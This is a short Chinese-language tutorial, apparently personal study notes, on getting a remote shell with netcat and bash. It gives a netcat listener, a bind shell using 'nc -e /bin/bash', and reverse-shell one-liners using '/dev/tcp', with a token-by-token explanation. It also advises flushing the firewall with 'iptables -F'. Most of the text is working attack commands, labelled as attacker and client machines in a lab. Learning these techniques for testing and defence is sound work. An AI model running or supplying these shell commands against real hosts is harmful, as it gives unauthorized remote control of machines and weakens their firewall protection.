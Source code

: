 ## NETCAT

nc -lvvp 2233 开启2233port的监听 其他主机连接要通过
nc 192.168.xx.xx 2233 来进行连接

**sudo iptables -F**  如果提示no route to host 而且都可以ping通 那可以尝试清理一下防火墙

弹一个shell(实例):
 CentOS建立监听,kalilinux来连接centos然后开一个bash,通过centos来控制kali：

```bash
CentOS 192.168.19.99
nc -lvvp 2233
KaLiLinux 192.168.19.121
nc 192.168.19.99 -e /bin/bash
kalilinux >(链接) centos
攻击机 >(链接) 客户机
正向链接
```

成功建立监听 拿到了kali的bash

![img](NC反弹shell.assets/a4a3fba3b9f4170c8a866806cf47ec7a.png) 


利用bash反弹shell:

```bash
bash -i >& /dev/tcp/192.168.19.99/2233 0>&1
bash -c "bash -i >& /dev/tcp/192.168.55.3/2233 0>&1"

bash -i >& /dev/tcp/IP/PORT 0>&1

bash -i 产生一个bash交互环境
>& 联合符号前面的内容与后面相结合 然后一起重定向给后者
/dev/tcp/192.168.19.99/2233 建立一个socket(tcp)链接
0>&1 与标准输入和标准输出的内容相结合 然后重定向给前面标准输出的内容
```

Bash产生了一个交互式环境和本地主机与攻击机2233端口建立的链接相结合 然后重定向给TCP2233会话链接 ， 最后将键盘输入与用户标准输出相结合再次重定向给一个标准的输出 ， 即得到一个Bash反弹环境

![img](NC反弹shell.assets/642a28ffbc83ee1023f8f286d62f5665.png)

![img](NC反弹shell.assets/905878f2ca0deff444a9b0e11783dccd.png)

```
centos >(链接) kalilinux
客户机 >(链接) 攻击机
反向链接
```

------

